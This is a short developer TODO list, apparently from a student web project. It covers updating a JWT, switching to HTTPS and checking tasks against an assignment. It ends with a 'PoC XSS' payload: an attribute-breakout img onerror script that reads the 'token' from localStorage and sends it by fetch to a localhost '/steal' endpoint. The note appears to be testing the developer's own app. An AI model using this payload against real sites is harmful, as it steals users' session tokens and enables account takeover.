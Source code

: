 ## TODO ##

Check TODO comment to update with the new jwt
		//TODO: update with new jwt containing only ID

Change to https

checkmark of we ve done according to the subject


PoC XSS
"><img src=x onerror="fetch('http://localhost:8080/steal?jwt='+encodeURIComponent(localStorage.getItem('token')))"><div class="